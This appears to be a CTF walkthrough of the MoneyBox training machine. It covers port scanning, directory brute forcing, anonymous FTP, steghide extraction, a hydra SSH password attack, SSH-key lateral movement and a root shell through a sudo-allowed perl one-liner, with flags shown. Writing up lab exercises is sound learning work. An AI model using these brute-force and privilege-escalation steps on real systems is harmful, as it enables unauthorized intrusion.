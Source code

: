 -> I started by enumerating the machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.197.230

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-21 10:52 EST
Nmap scan report for 192.168.197.230
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.96 seconds
```
-> Nothing to see... So I go to the webpage, checked for hidden stuff on the source code, but nothing.

```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1><big>Hai Everyone......!</big></h1>
    <h2>Welcome To MoneyBox CTF</h2>
    <p><pre>
  __  __                        ____            
 |  \/  |                      |  _ \           
 | \  / | ___  _ __   ___ _   _| |_) | _____  __
 | |\/| |/ _ \| '_ \ / _ \ | | |  _ < / _ \ \/ /
 | |  | | (_) | | | |  __/ |_| | |_) | (_) >  < 
 |_|  |_|\___/|_| |_|\___|\__, |____/ \___/_/\_\
                           __/ |                
                          |___/                 </p><br>
    <p><b>it's a very simple Box.so don't overthink</b></p>
</body>
</html>
```

-> So I started scanning for hidden directories or files

```
┌──(root㉿kali)-[/home/astra]
└─# gobuster dir -u http://192.168.197.230/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150

===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.197.230/
[+] Method:                  GET
[+] Threads:                 150
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/02/21 10:55:51 Starting gobuster in directory enumeration mode
===============================================================
/blogs                (Status: 301) [Size: 318] [--> http://192.168.197.230/blogs/]
/server-status        (Status: 403) [Size: 280]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/02/21 10:59:20 Finished
===============================================================
```

-> I found this directory called "blogs" I got to it and I found something interesting in the source code
```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>I'm T0m-H4ck3r</h1><br>
        <p>I Already Hacked This Box and Informed.But They didn't Do any Security configuration</p>
        <p>If You Want Hint For Next Step......?<p>
</body>
</html>
```


<!--the hint is the another secret directory is S3cr3t-T3xt-->

-> So, I go to http://192.168.197.230/S3cr3t-T3xt/ and found this on the source code
```
<html>
<head><title>MoneyBox</title></head>
<body>
    <h1>There is Nothing In this Page.........</h1>
</body>
</html>

<!..Secret Key 3xtr4ctd4t4 >
```
-> I thought this maybe an password "extractdata" so I tried to connect to ftp, for my surprise it had an image that I had missed on, I download it and I run steghide command to see if it has anything, using the password "extractdata"
```
┌──(root㉿kali)-[/home/astra]
└─# ftp 192.168.197.230

Connected to 192.168.197.230.
220 (vsFTPd 3.0.3)
Name (192.168.197.230:astra): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||56601|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
226 Directory send OK.
```
-> Here I run the command "get" to download the image on my machine on the current directory
```
ftp> get trytofind.jpg 

local: trytofind.jpg remote: trytofind.jpg
229 Entering Extended Passive Mode (|||48069|)
150 Opening BINARY mode data connection for trytofind.jpg (1093656 bytes).
100% |***********************************************************************************************************|  1068 KiB  237.53 KiB/s    00:00 ETA
226 Transfer complete.
1093656 bytes received in 00:04 (230.84 KiB/s)
ftp> exit
221 Goodbye.
                                                                                                                                                                       
┌──(root㉿kali)-[/home/astra]
└─# steghide --extract -sf trytofind.jpg
Enter passphrase: 
wrote extracted data to "data.txt".
                                                                                                                                                        
┌──(root㉿kali)-[/home/astra]
└─# cat data.txt   
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```
-> Now I got a user called "renu" and the file tells me the password is too "week", so I will use hydra to try and crack the ssh password
```
┌──(root㉿kali)-[/home/astra]
└─# hydra -l renu -P rockyou.txt -f 192.168.197.230 ssh -I

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-21 11:11:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.197.230:22/
[22][ssh] host: 192.168.197.230   login: renu   password: 987654321
[STATUS] attack finished for 192.168.197.230 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-21 11:12:24
```                                                                                           
-> Found the password "987654321" now I will connect to the ssh and get the first flag
```
┌──(root㉿kali)-[/home/astra]
└─# ssh -l renu 192.168.197.230         

renu@192.168.197.230's password: 
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 23 10:00:13 2022
renu@MoneyBox:~$ ls
ftp  local.txt
renu@MoneyBox:~$ cat local.txt 
ee278fead71bfc63679ae9a112139df0
renu@MoneyBox:~$ 
```
-> Now we got the first flag ! I go to /home/ and find an user called "lily" and I also got the authorized_key from renu, meaning he can connect to ssh without password
```
renu@MoneyBox:/home$ ls

lily  renu
renu@MoneyBox:/home$ cd lily
renu@MoneyBox:/home/lily$ ls
renu@MoneyBox:/home/lily$ ls -la
total 32
drwxr-xr-x 4 lily lily 4096 Oct 11 10:52 .
drwxr-xr-x 4 root root 4096 Feb 26  2021 ..
-rw------- 1 lily lily  985 Feb 26  2021 .bash_history
-rw-r--r-- 1 lily lily  220 Feb 25  2021 .bash_logout
-rw-r--r-- 1 lily lily 3526 Feb 25  2021 .bashrc
drwxr-xr-x 3 lily lily 4096 Feb 25  2021 .local
-rw-r--r-- 1 lily lily  807 Feb 25  2021 .profile
drwxr-xr-x 2 lily lily 4096 Feb 26  2021 .ssh

renu@MoneyBox:/home/lily$ cd .ssh
renu@MoneyBox:/home/lily/.ssh$ cat authorized_keys 

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eIiVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNxlvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian
renu@MoneyBox:/home/lily/.ssh$ 
```
-> Now I use ssh lily@192.168.197.230, and got into lily user 
```
renu@MoneyBox:~$ ssh lily@192.168.197.230

The authenticity of host '192.168.197.230 (192.168.197.230)' can't be established.
ECDSA key fingerprint is SHA256:8GzSoXjLv35yJ7cQf1EE0rFBb9kLK/K1hAjzK/IXk8I.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.197.230' (ECDSA) to the list of known hosts.
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 26 09:07:47 2021 from 192.168.43.80

lily@MoneyBox:~$ 
```
-> I do an sudo -l and I can see that lily can run perl commands as root without asking for password, so I do an simple perl command and got root access. 
```
lily@MoneyBox:/$ sudo perl -e 'exec "/bin/bash";'
root@MoneyBox:/# cd root
root@MoneyBox:~# ls
proof.txt
root@MoneyBox:~# cat proof.txt 
bf3e7ad76f3dfd2cd63774da95695246
root@MoneyBox:~# gg
```



